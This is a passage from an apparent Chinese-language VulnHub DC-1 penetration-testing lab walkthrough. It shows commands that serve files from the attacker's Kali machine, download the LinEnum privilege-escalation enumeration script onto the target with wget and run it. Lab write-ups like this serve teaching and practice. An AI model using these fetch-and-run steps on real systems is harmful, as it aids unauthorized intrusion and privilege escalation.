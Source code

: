 ```bash
python -m SimpleHTTPServer 8080
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/12.png)

```bash
wget http://192.168.141.134:8080/LinEnum/LinEnum.sh
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/13.png)

从 kali 上下好后直接运行
```bash
bash LinEnum.sh
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/14.png)

